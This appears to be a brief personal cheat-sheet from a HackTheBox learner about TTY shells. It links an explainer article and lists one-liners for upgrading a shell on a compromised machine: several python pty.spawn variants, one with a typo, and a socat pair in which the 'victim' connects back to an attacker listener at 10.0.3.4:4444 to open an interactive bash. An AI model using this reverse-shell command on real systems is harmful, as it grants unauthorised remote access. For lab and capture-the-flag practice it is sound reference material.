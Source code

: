 # The TTY is a Teletype terminals. 
The following article gives a really great overview of what a TTY is http://www.linusakesson.net/programming/tty/index.php.

# Some commands I've used to escape TTY when doing HackTheBox:

1.  python -c "import pty;py.spawn('/bin/bash')"
2.  python -c 'import pty; pty.spawn("/bin/sh")'
3.  python -c 'import pty; pty.spawn("/bin/bash")'
4.  socat file:`tty`,raw,echo=0 tcp-listen:4444 (On Kali Listen)
5.  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444 (Victim run it)
